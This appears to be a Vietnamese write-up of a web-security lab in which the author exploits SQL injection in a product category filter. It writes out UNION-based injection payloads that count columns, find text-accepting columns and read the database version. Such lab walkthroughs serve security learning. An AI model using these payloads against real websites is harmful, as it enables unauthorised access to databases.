




# Triển khai Lap
 ###### Phát hiện thấy có lỗ hổng chèn SQL trong bộ lọc danh mục sản phẩm.Khi nhập lệnh `/filter?category='ORDER BY 3-- -`
 
###### Tiếp tục thay đổi URL `/filter?category=' UNION SELECT NULL,NULL-- -`

###### ===>có 2 cột trong bảng này.
###### tìm phiên bản cơ sở dữ liệu.
###### Tìm xem cột nào chấp nhận kiểu dữ liệu string.
###### `' UNION SELECT 'string1','string2'-- -`

###### ===>Cả hai đều chấp nhận kiểu dữ liệu chuỗi.
###### Liệt kê phiên bản DBMS (Database Management System) version via version().
###### `' UNION SELECT NULL,version()-- -`

